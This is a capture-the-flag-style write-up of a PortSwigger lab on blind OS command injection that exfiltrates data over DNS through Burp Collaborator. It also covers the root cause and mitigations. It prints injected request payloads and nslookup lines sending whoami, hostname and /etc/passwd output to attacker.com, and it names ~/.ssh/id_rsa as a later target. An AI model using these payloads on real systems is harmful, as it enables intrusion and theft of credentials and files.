



# Lab 05: Blind OS Command Injection with Out-of-Band Data Exfiltration

> **Topic**: OS Command Injection
> **Lab Number**: 05
> **Platform**: PortSwigger Web Security Academy

## Category
Blind OS Command Injection — Data Exfiltration via DNS Subdomain Label using Burp Collaborator

## Vulnerability Summary
The feedback submission endpoint passes user-supplied fields to a backend shell command without sanitization. The injection is fully blind — no output in the response, no timing difference. Building on OOB interaction (Lab 04), this lab demonstrates actual data exfiltration: by embedding a command substitution `` `whoami` `` inside an `nslookup` payload, the output of `whoami` is used as a DNS subdomain label. Burp Collaborator receives a DNS lookup for `peter-qHYATo.fatj3lftv9c3aghhlu1swrrozf56t0hp.oastify.com`, revealing the OS username `peter-qHYATo` — which is then submitted to solve the lab.

## Attack Methodology

### Step 1: Generate a Burp Collaborator Payload
Opened the **Collaborator** tab and copied a unique subdomain:

```
fatj3lftv9c3aghhlu1swrrozf56t0hp.oastify.com
```

### Step 2: Inject Command Substitution into `nslookup` Payload

Modified the `email` parameter to embed `` `whoami` `` as a subdomain prefix:

```http
POST /feedback/submit HTTP/2
Host: 0a1a00ae03d06850859a9a7400690045.web-security-academy.net
Cookie: session=Y6FHgtWVUiCVFDtqp9q4Czicy6KVuRAf
Content-Type: application/x-www-form-urlencoded

csrf=Itx2sVBDyeLuhGUXR2y76QpGo97xWfQe&name=munn1&email=||nslookup+`whoami`.fatj3lftv9c3aghhlu1swrrozf56t0hp.oastify.com||&subject=darling&message=tereliye
```

The backend shell executes:
```bash
mail ... ||nslookup `whoami`.fatj3lftv9c3aghhlu1swrrozf56t0hp.oastify.com||
```

Shell evaluation order:
1. `` `whoami` `` is evaluated first — executes `whoami`, returns `peter-qHYATo`
2. The result is substituted into the `nslookup` argument:
   ```bash
   nslookup peter-qHYATo.fatj3lftv9c3aghhlu1swrrozf56t0hp.oastify.com
   ```
3. `nslookup` performs a DNS lookup — the query travels to Collaborator's nameserver

Response: `HTTP/2 200 OK` — `{}` (blind, no output)



### Step 3: Read Exfiltrated Data from Collaborator

Polled Collaborator and observed DNS interactions. Rows 6 & 7 show a new payload with the `whoami` output prepended:

| # | Time | Type | Payload | Source IP |
|---|------|------|---------|-----------|
| 6 | 2026-May-08 23:01:41.367 UTC | DNS | fatj3lftv9c3aghhlu1swrrozf56t0hp | 3.251.120.123 |
| 7 | 2026-May-08 23:01:41.367 UTC | DNS | fatj3lftv9c3aghhlu1swrrozf56t0hp | 3.251.104.245 |

Collaborator description for interaction #6:
> *"The Collaborator server received a DNS lookup of type A for the domain name **peter-qHYATo**.fatj3lftv9c3aghhlu1swrrozf56t0hp.oastify.com"*

The subdomain label `peter-qHYATo` is the output of `whoami` — the OS username of the web server process.



### Step 4: Submit the Username to Solve the Lab

Submitted `peter-qHYATo` via the "Submit solution" button. Lab solved.



## Technical Root Cause

### Vulnerable Code (Pseudocode)
```python
import subprocess

def submit_feedback(request):
    email = request.POST.get('email')
    subject = request.POST.get('subject')
    message = request.POST.get('message')
    # VULNERABLE: shell=True, backtick substitution evaluated by shell
    subprocess.run(
        f'mail -s "{subject}" {email} <<< "{message}"',
        shell=True
    )
    return JsonResponse({})
```

With `` email=||nslookup `whoami`.attacker.com|| ``, the shell:
1. Evaluates `` `whoami` `` → `peter-qHYATo`
2. Constructs: `nslookup peter-qHYATo.attacker.com`
3. Executes the DNS lookup — data leaves the server

### Secure Code (Pseudocode)
```python
import subprocess, re

def submit_feedback(request):
    email = request.POST.get('email', '')
    if not re.fullmatch(r'[a-zA-Z0-9._%+\-]+@[a-zA-Z0-9.\-]+\.[a-zA-Z]{2,}', email):
        return HttpResponseBadRequest('Invalid email')
    # No shell — backticks, $(), ||, ; are all inert
    subprocess.run(['mail', '-s', subject, email], input=message.encode())
    return JsonResponse({})
```

## Impact
- **Full Data Exfiltration with No In-Band Channel**: Any command output — usernames, file contents, environment variables, private keys — can be exfiltrated via DNS subdomains with no HTTP response needed
- **Works Through Firewalls**: DNS (port 53 UDP/TCP) is almost universally permitted outbound, bypassing egress filters that block HTTP/HTTPS
- **Chained Escalation**: `whoami` → `id` → `cat /etc/passwd` → `cat ~/.ssh/id_rsa` — each exfiltrated as a DNS label or series of labels

**Severity: Critical**

## Proof of Concept

**Exfiltrate `whoami` via DNS:**
```http
POST /feedback/submit HTTP/2
Content-Type: application/x-www-form-urlencoded

csrf=...&name=x&email=||nslookup+`whoami`.YOUR-COLLABORATOR.oastify.com||&subject=x&message=x
```

**Expected Collaborator interaction:**
```
DNS lookup for: <username>.YOUR-COLLABORATOR.oastify.com
```

**Exfiltrate other data:**
```bash
# Current user
||nslookup+`whoami`.attacker.com||

# Hostname
||nslookup+`hostname`.attacker.com||

# First line of /etc/passwd (base64 to avoid special chars in DNS)
||nslookup+`head -1 /etc/passwd|base64|tr -d =`.attacker.com||
```

## Key Takeaways
1. **Command Substitution Enables Data Exfiltration**: Backticks (`` ` ``) and `$()` are shell command substitution operators. When the shell evaluates `` `whoami` ``, it runs `whoami` and replaces the expression with its output — making it a data carrier inside any other command.
2. **DNS Labels Are a Covert Exfiltration Channel**: DNS subdomain labels can carry up to 63 characters each. Short command outputs (usernames, hostnames, short file contents) fit directly. Longer outputs require chunking or base64 encoding.
3. **OOB → OOB Exfil Is a Natural Progression**: Lab 04 confirmed injection via DNS ping. Lab 05 adds data — the same technique, one step further. In real engagements, confirming OOB interaction is always followed by attempting data exfiltration.
4. **No Egress HTTP Required**: Many hardened environments block outbound HTTP/HTTPS from application servers but allow DNS. DNS-based exfiltration bypasses these controls entirely.

## Mitigation

### 1. Eliminate Shell Execution
```python
subprocess.run(['mail', '-s', subject, email], input=message.encode())
# shell=False — backticks and $() are passed as literal characters, not evaluated
```

### 2. Strict Input Validation
```python
EMAIL_RE = re.compile(r'^[a-zA-Z0-9._%+\-]+@[a-zA-Z0-9.\-]+\.[a-zA-Z]{2,}$')
if not EMAIL_RE.match(email):
    return HttpResponseBadRequest()
```

### 3. Egress DNS Filtering
Restrict outbound DNS from the application server to internal resolvers only. Block direct DNS queries to external nameservers. This limits DNS exfiltration even if injection occurs.

### 4. Use a Mail API Instead of Shell
```python
import boto3
ses = boto3.client('ses')
ses.send_email(
    Source='noreply@example.com',
    Destination={'ToAddresses': [email]},
    Message={'Subject': {'Data': subject}, 'Body': {'Text': {'Data': message}}}
)
```
No shell, no injection surface.

## References
- [PortSwigger — Blind OS Command Injection with OOB Data Exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
- [PortSwigger — Blind OS Command Injection via OOB Techniques](https://portswigger.net/web-security/os-command-injection#exploiting-blind-os-command-injection-using-out-of-band-oob-techniques)
- [Burp Suite Collaborator Documentation](https://portswigger.net/burp/documentation/collaborator)
- [OWASP — OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, Collaborator)
- Chromium

---

*Lab completed on: 2026-05-09*  
*Writeup by vibhxr*
